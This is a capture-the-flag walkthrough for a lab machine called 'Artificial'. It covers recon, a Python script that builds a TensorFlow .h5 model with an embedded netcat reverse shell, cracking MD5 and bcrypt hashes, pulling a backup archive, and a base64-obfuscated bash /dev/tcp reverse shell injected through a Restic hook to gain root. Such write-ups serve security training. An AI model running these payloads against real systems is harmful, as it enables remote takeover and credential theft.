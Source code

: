 **Platform:** Linux\
**IP:** 10.129.70.3\
**Difficulty:** Easy\
**Author:** NoSec

---

## Recon

```bash
nmap -sC -sV -T4 10.129.70.3

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 14:07 CEST
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.045s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
```

**/etc/hosts edit:**
```bash
echo "10.10.11.74 artificial.htb" | sudo tee -a /etc/hosts
```

---

## Web Enumeration

The website provides login and registration functionality. After signing up, it allows uploading `.h5` files.

### Generating a malicious TensorFlow model(tenserflow-cpu==2.13.1 a requied)

```python
# model_gen.py
import tensorflow as tf
import os

def exploit(x):
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.44 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("nosechere.h5")
```

**Docker command:**
```bash
sudo docker run -it --rm -v "$PWD":/app -w /app tensorflow/tensorflow:2.13.0 python3 model_gen.py
```

After uploading:
```bash
nc -lvnp 4444
```

---

## SQLite Database Enumeration

```bash
find / -type f \( -name "*.db" -o -name "*.sqlite3" \) 2>/dev/null
```

Found: `/home/app/app/instance/users.db`

```bash
sqlite3 /home/app/app/instance/users.db
.tables
.schema user
SELECT * FROM user;
```

### Cracking hashes (raw-md5):

```bash
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Example results:
```
mattp005
marwinn
```

---

## Privilege Escalation (Backup leak)

Using the `redteam-launcher` to check backups(https://github.com/No4Sec/redteam-launcher):
```
/var/backups/backrest_backup.tar.gz
```

**Download via HTTP server:**
```bash
cd /var/backups
python3 -m http.server
```

**On Kali:**
```bash
wget http://10.129.70.3:8000/backrest_backup.tar.gz
```

**Extract:**
```bash
tar -xvf backrest_backup.tar.gz
```

**config.json:**
```json
{
  "auth": {
    "users": [
      {
        "name": "backrest",
        "passwordBcrypt": "$2a$10$..."
      }
    ]
  }
}
```

Base64 decode:
```bash
cat hash.txt | base64 -d
```

John bcrypt:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

---

## Local RESTIC Web UI (port 9898)

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

After port forwarding, we can access the Backrest login page. Use the dumped credentials to log in and create a new repo.

**Environment variable exploit:**
```bash
RESTIC_PASSWORD_COMMAND=bash -c 'bash -i >& /dev/tcp/10.10.xx.xxx/4444 0>&1'
```

**Important:** for the `Hook` field, use:
```bash
RESTIC_PASSWORD_COMMAND=echo 'YmFzaCAtaSAmJiAvZGVyL3RjcC8xMC4xNi4xMzUvNDQ0NCAwPiYxCg==' | base64 -d | bash
```

**Flag:** `ON_ERROR_IGNORE`

**Why base64?** Because the input field tends to break special characters. Encoding helps to deliver the payload cleanly.

```bash
echo 'bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1' | base64
```

Then submit, and we get a root shell back:
```bash
nc -lvnp 4444
```
```bash
(root㉿NoSec)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.74] 50526
bash: cannot set terminal process group (28638): Inappropriate ioctl for device
bash: no job control in this shell
root@artificial:/# cd root
cd root
root@artificial:~# ls
ls
root.txt
scripts
root@artificial:~# 
```

---

## 🧩 Summary

Artificial is an easy but creative machine combining multiple exploitation vectors:

- Remote shell via malicious machine learning model
- Hash extraction from SQLite database
- Bcrypt hash found in backup archive
- RESTIC environment variable leading to RCE and root shell

The `.h5` TensorFlow model with embedded code execution and the RESTIC hook exploit were both unique highlights of the box.

**Key takeaways:**
- Never trust user-uploaded files
- Avoid running backup services as root
- Always inspect `.tar.gz` files — they may contain secrets :)

---

🎯 Rooted. Moving on to the next one. //

